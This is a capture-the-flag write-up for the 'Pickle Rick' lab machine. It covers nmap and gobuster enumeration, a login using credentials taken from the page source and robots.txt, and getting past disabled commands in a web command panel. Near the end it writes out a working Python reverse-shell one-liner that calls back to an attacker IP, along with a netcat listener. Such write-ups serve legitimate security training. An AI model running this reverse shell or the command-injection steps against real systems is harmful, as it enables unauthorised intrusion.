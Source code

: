 ```yaml
---
description: A Rick and Morty CTF. Help turn Rick back into a human!
---
```


# Pickle Rick

### Machine IP: 10.10.110.178&#x20;

### Enumeration:

1. **Nmap scan**:\
   `sudo nmap -sC -sV -T4 10.10.110.178`

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

2. **Gobuster scan:**\
   ****\
   ****`gobuster dir -u http://10.10.110.178 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -x php,sh,txt,cgi,html,js,css,py -o scans/gobuster-small.txt`

<figure><img src=".gitbook/assets/gobuster.png" alt=""><figcaption><p>gobuster scan</p></figcaption></figure>

From this scan we get a few paths. Lets check them.\
When we go to: [http://10.10.110.178/robots.txt](http://10.10.110.178/robots.txt), we get a text string: Wubbalubbadubdub\
In [http://10.10.110.178/login.php](http://10.10.110.178/login.php) we get a login page.

3. **Check the website:**\
   ****As there was a port 80 open in our nmap scan, lets see the website!

<figure><img src=".gitbook/assets/website (1).png" alt=""><figcaption><p>picklerick website</p></figcaption></figure>

<figure><img src=".gitbook/assets/website-source.png" alt=""><figcaption><p>source code of website</p></figcaption></figure>

From the website source we get a username. We can try using it with the string we got from robots.txt file as the password. Lets try it in the login.php page.

We get a successful login with these credentials!

<figure><img src=".gitbook/assets/login.png" alt=""><figcaption><p>successful login</p></figcaption></figure>

After login we get a text field for entering commands. If we try to execute any commands, they will get executed by the machine. \
We can capture this request in Burp Suite and try running commands.

### Burp Suit:

After capturing the request in Burp Proxy, we can send them to Repeater and send our custom requests.

<figure><img src=".gitbook/assets/burp1.png" alt=""><figcaption></figcaption></figure>

We will find that some commands have been disabled, like cat, nano, vim etc. After a few tries, we can see that `less` is not disabled. So we can use it to get our **Sup3rS3cretPickl3Ingred.txt**

### Reverse-Shell:

Now that we can execute commands, lets try to get a shell. We can confirm python is installed on the system with: `which python3`\
``**Note**: If you try `which python` we wont get a response as only python3 is installed.

As python3 is installed, we can use a reverse-shell python script from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to gain the shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.115.192",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`\
``\
``In attack machine: `nc -lvnp 1234`

With this we will get a reverse-shell.&#x20;

